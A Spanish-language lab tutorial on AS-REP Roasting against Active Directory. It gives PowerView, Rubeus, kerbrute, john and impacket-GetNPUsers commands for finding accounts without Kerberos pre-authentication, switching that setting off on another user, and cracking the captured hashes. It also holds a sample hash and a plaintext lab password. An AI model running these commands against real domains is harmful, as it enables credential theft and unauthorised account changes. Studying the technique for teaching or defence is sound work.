

¿EN QUÉ CONSISTE?
Si en el AS-REQ tratabamos de crackear el timestamp, en AS-REP Roasting (Replay) nos quedamos con el paquete que contiene la SessionKey cifrada con la clave del usuario.
Aquí explotaremos un privilegio que tiene ciertos usuarios como los del UAC (user account control) que permite obtener el TGT sin realizar el proceso de pre-autenticación. Es decir, siendo otro usuario, puedo enviar el nombre de un usuario cualquiera del dominio y si existe enviará el TGT cifrado con la clave del TGS y el paquete con la SessionKey cifrado con la clave privada del usuario que le indicamos.
Con este paquete vamos a coger la clave e intentar crackearla offline.
CON USUARIO DENTRO DE DOMINIO
En WS01 podemos enumerar que opción dentro del UAC de un usuario permite no requerir la pre-autenticación.
. .\newpower.ps1
Get-DomainUser -PreauthNotRequired
Esto indica que podremos interactuar con el AS y unicamente mandando el nombre nos devolverá el TGT y su SessionKey cifrada con su Password.
Si lo observamos en el DC:
Ahora vamos con Rubeus:
.\Rubeus.exe asreproast /format:john /outfile:hash.john
Rubeus comprobará automáticamente consultando la LDAP qué usuario del dominio es el que tiene esos permisos y captura el hash.
Lo pasamos a Kali:

john hash.john
Rápidamente obtenemos la clave.
En el caso de que ningún usuario tenga esa propiedad de UAC activada podremos buscar un usuario que tenga control sobre las propiedades de otro y activarlo de forma remota. En este caso vamos a suponer que empleado1 tiene estos permisos.
En este caso hemos cogido a ese usuario Florri Bethena y le agregamos la característica.
Desde el usuario empleado1 en WS01:
Set-DomainObject -Identity florri.bethena -XOR @{useraccountcontrol=4194304} -Verbose
Si comprobamos con PowerView los usuarios con ese privilegio como antes:
Vemos que lo hemos agregado correctamente.
Ahora si a rubeus le indicamos lo mismo nos sacará los hashes de ambos usuarios.
.\Rubeus.exe asreproast
SIN USUARIO DE DOMINIO
Para ejecutar esto desde una maquina fuera del dominio usamos kali con wireshark y kerbrute:
Activamos Wireshark a escuchar en la red.
kerbrute userenum -d corp.local users.txt
Ahora es de suponer que en el archivo users.txt tenemos los usuarios que corresponden, aquí los hemos añadido manualmente.
Indica que son validos:
Y en wireshark observamos que si filtramos por Kerberos los paquetes que se envían ninguno ha requerido un pre-auth ya que los usuarios que tenemos en el users.txt tienen estos privilegios de UAC
Desde aquí accedemos a los datos de los AS-REP
Creamos el archivo con el formato que vimos antes:
$krb5asrep$florri.bethena@corp.local:2a37e14795d141ed4c4708cf044367986f46684a4c6144e1c1906777f7bbe5ca8db15c9ac1722b16843bc5d8fbd477e873ae97ba18c9437163845bca6d214e8d516e7d29e2f0
ad6b6ea416a4368e2421aa13b7a8d81a5435c6f7f030e3036a4e3714cacf462f5e32fa7b6357f5ae850fb6f752a4695b43826d028850f782c016e2bd054e61db3ce8c3c3f493c1dc710e44b95e405417c7be9ac55187d4e1f
5ba5f19f287eb78a5e486ffb4899c86edadef1e9d4b934fc2ce976082d1df3c29f5606a6a6fa1a7be5483f7d23ca4b7f5b433c8bdb0c0d4c8be1832b2ea08f4df139c8d88beb973f2bff9d435eae428948971bf23d305ef94
e628b28db8e447baf98481a886343af192d91fa60e
Y ya lo podemos crackear.
impacket-GetNPUsers corp.local/ -users users.txt -format john -outputfile hash.hash
Podemos usar impacket con unos credenciales que ya tengamos indicandolo:
impacket-GetNPUsers corp.local/empleado1:Passw0rd1 -format john -outputfile hash.hash